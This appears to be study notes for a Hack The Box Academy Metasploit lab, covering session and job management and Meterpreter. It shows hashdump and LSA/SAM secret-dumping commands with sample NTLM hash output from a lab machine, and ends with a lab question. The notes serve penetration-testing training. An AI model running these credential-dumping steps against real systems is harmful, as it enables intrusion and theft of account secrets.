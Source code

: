 # 🆘 MSF Sessions

## Sessions & Jobs

`Sessions` creates dedicated control interfaces for all of your deployed modules. once a session is placed in the background, it will continue to run, and our connection to the target host will persist.

we can background the session as long as they form a channel of communication with the target host with `CRTL+Z`

We can use the `sessions` command to view our currently active sessions.

```shell-session
msf6 exploit(windows/smb/psexec_psh) > sessions
```

And we can interract with sessions with the `sessions -i [no.]` command

```shell-session
msf6 exploit(windows/smb/psexec_psh) > sessions -i 1
```

If, for example, we are running an active exploit under a specific port and need this port for a different module, we'll use `jobs` command to look at the currently active tasks running in the background and terminate the old ones to free up the port.

```shell-session
msf6 exploit(multi/handler) > jobs -h
```

When we run an exploit, we can run it as a job by typing `exploit -j`

**Running an Exploit as a Background Job**

```shell-session
msf6 exploit(multi/handler) > exploit -j
```

If we want to list running jobs ->

```shell-session
msf6 exploit(multi/handler) > jobs -l
```

## Meterpreter

The `Meterpreter` Payload is a specific type of multi-faceted, extensible Payload that uses `DLL injection` to ensure the connection to the victim host is stable and difficult to detect using simple checks and can be configured to be persistent across reboots or system changes.

Once we got our meterpreter shell with admin rights we can dump hashes with the following command&#x20;

```shell-session
meterpreter > hashdump

Administrator:500:c74761604a24f0dfd0a9ba2c30e462cf:d6908f022af0373e9e21b8a241c86dca:::
ASPNET:1007:3f71d62ec68a06a39721cb3f54f04a3b:edc0d5506804653f58964a2376bbd769:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
<SNIP>

meterpreter > lsa_dump_sam

[+] Running as SYSTEM
[*] Dumping SAM
Domain : GRANNY
SysKey : 11b5033b62a3d2d6bb80a0d45ea88bfb
Local SID : S-1-5-21-1709780765-3897210020-3926566182
<SNIP>

meterpreter > lsa_dump_secrets

[+] Running as SYSTEM
[*] Dumping LSA secrets
Domain : GRANNY
SysKey : 11b5033b62a3d2d6bb80a0d45ea88bfb
```

_**Retrieve the NTLM password hash for the "htb-student" user. Submit the hash as the answer.**_

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
